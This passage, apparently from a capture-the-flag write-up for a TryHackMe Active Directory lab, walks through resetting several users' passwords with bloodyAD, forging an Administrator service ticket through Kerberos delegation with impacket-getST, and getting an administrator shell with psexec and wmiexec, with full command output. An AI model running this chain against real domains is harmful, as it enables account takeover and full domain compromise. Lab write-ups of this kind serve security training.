       /opt/bloodyAD/bloodyAD.py --host 10.10.40.42 -d thm.corp -u tabatha_britt -p "xxxxxxx" set password shawna_bray Pwd1234
      [+] Password changed successfully!

          
- Changing password for using shawna account cruz_hall password:

      /opt/bloodyAD/bloodyAD.py --host 10.10.40.42 -d thm.corp -u shawna_bray -p "Pwd1234" set password cruz_hall Pwd1234
      [+] Password changed successfully!
- Finally change darla password.

      /opt/bloodyAD/bloodyAD.py --host 10.10.40.42 -d thm.corp -u cruz_hall -p "Pwd1234" set password darla_winters Pwd1234
      [+] Password changed successfully!

We can verify the final result: RDP login to the server with darla credentials:

    C:\Users\TEMP.THM>hostname & whoami
    HayStack
    thm\darla_winters
  
The final step is requiring a Service Ticket for the administrator using KDC:

    impacket-getST  -dc-ip 10.10.40.42 -spn "cifs/haystack.thm.corp" -impersonate Administrator "thm.corp/DARLA_WINTERS:Pwd1234"
    ...
    [-] CCache file is not found. Skipping...
    [*] Getting TGT for user
    [*] Impersonating Administrator
    [*] Requesting S4U2self
    [*] Requesting S4U2Proxy
    [*] Saving ticket in Administrator@cifs_haystack.thm.corp@THM.CORP.ccache

Then to use the ticket in the current session:

    export KRB5CCNAME=Administrator@cifs_haystack.thm.corp@THM.CORP.ccache 

Then we can get a shell:

    impacket-psexec -dc-ip 10.10.40.42 -target-ip 10.10.40.42 -k -no-pass administrator@haystack.thm.corp -debug 
    [+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
    [+] StringBinding ncacn_np:haystack.thm.corp[\pipe\svcctl]
    [+] Using Kerberos Cache: Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
    [+] Domain retrieved from CCache: thm.corp
    [+] Returning cached credential for CIFS/HAYSTACK.THM.CORP@THM.CORP
    [+] Using TGS from cache
    [*] Requesting shares on 10.10.40.42.....
    [*] Found writable share ADMIN$
    [*] Uploading file gCsTDbYj.exe
    [*] Opening SVCManager on 10.10.40.42.....
    [*] Creating service XHhe on 10.10.40.42.....
    [*] Starting service XHhe.....

Actually the command prompt is never returned, at the moment I can't say why. Let's try using wmi. Check if the service is up:

    nmap -Pn -sVC -p 135 10.10.40.42
    ...
    PORT    STATE SERVICE VERSION
    135/tcp open  msrpc   Microsoft Windows RPC

So we can use wmi to try to get a shell:

    impacket-wmiexec -dc-ip 10.10.40.42 -target-ip 10.10.40.42 -k -no-pass administrator@haystack.thm.corp -debug
    ...
    [+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
    [+] Using Kerberos Cache: Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
    [+] Domain retrieved from CCache: thm.corp
    [+] Returning cached credential for CIFS/HAYSTACK.THM.CORP@THM.CORP
    [+] Using TGS from cache
    [*] SMBv3.0 dialect used
    [+] Using Kerberos Cache: Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
    [+] Domain retrieved from CCache: thm.corp
    [+] SPN HOST/HAYSTACK.THM.CORP@THM.CORP not found in cache
    [+] AnySPN is True, looking for another suitable SPN
    [+] Returning cached credential for CIFS/HAYSTACK.THM.CORP@THM.CORP
    [+] Using TGS from cache
    [+] Changing sname from cifs/haystack.thm.corp@THM.CORP to HOST/HAYSTACK.THM.CORP@THM.CORP and hoping for the best
    [+] Target system is haystack.thm.corp and isFQDN is True
    [+] StringBinding: HayStack[58970]
    [+] StringBinding chosen: ncacn_ip_tcp:haystack.thm.corp[58970]
    [+] Using Kerberos Cache: Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
    [+] Domain retrieved from CCache: thm.corp
    [+] SPN HOST/HAYSTACK.THM.CORP@THM.CORP not found in cache
    [+] AnySPN is True, looking for another suitable SPN
    [+] Returning cached credential for CIFS/HAYSTACK.THM.CORP@THM.CORP
    [+] Using TGS from cache
    [+] Changing sname from cifs/haystack.thm.corp@THM.CORP to HOST/HAYSTACK.THM.CORP@THM.CORP and hoping for the best
    [+] Using Kerberos Cache: Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
    [+] Domain retrieved from CCache: thm.corp
    [+] SPN HOST/HAYSTACK.THM.CORP@THM.CORP not found in cache
    [+] AnySPN is True, looking for another suitable SPN
    [+] Returning cached credential for CIFS/HAYSTACK.THM.CORP@THM.CORP
    [+] Using TGS from cache
    [+] Changing sname from cifs/haystack.thm.corp@THM.CORP to HOST/HAYSTACK.THM.CORP@THM.CORP and hoping for the best
    [+] Using Kerberos Cache: Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
    [+] Domain retrieved from CCache: thm.corp
    [+] SPN HOST/HAYSTACK.THM.CORP@THM.CORP not found in cache
    [+] AnySPN is True, looking for another suitable SPN
    [+] Returning cached credential for CIFS/HAYSTACK.THM.CORP@THM.CORP
    [+] Using TGS from cache
    [+] Changing sname from cifs/haystack.thm.corp@THM.CORP to HOST/HAYSTACK.THM.CORP@THM.CORP and hoping for the best
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>whoami
    thm\administrator

Get the root flag

    C:\>type C:\Users\administrator\desktop\root.txt


    

    


    


    


    


    

    

